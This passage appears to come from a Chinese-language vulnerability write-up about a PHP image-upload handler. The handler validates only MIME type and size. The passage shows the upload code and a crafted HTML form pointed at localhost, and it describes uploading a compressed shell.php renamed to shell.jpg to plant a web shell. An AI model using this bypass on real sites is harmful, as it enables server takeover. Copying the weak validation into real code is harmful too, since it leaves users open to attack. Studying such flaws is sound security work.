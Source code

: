 ```plain
        break;
        case 'image/gif' :
            $extend = ".gif";
        break;
        case 'image/png' :
            $extend = ".png";
        break;
        case 'image/x-icon':
            $extend = ".ico";
        break;

    }
    if (empty( $extend )) {
        exit('{"code": "-1","msg":"上传的图片类型不支持"}');
    }
    if ($size > $maxsize) {
        exit('{"code": "-1","msg":"图片不能超过'.$maxsize/pow(1024,2).'M"}');
    }
    $img_name = IMG_NAME.$extend;
    //文件名
    $save_to = $dir.$img_name;
    $url = siteurl().'/'.SAVE_PATH.'upload/'.$img_name;
    if (move_uploaded_file ( $tmp_name, $dir . $img_name )) {
        echo('{"code": "200","msg":"上传成功","url":"'.$url.'"}');
        return  $dir . $img_name;
    }
}
```

```plain
if(empty($_POST["url"]) &&!empty($_FILES["file"])) {
    $filename = upload_img($_FILES["file"]);
```

构造文件上传页：

```plain
<form action="http://localhost/include/file.php" method="post" enctype="multipart/form-data">
    <input type="file" name="file">
    <input type="submit" value="提交">
</form>
```

把 shell.php 压缩之后改名为 shell.jpg 然后上传。  
[![](assets/1710899218-d0bdc8a8be6ba05133ca7518c4f0217a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228170044-db43a1f2-d617-1.png)  
[![](assets/1710899218-33dba65467fc22c4c10f5f87fea436a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228170210-0e5fdd4e-d618-1.png)  
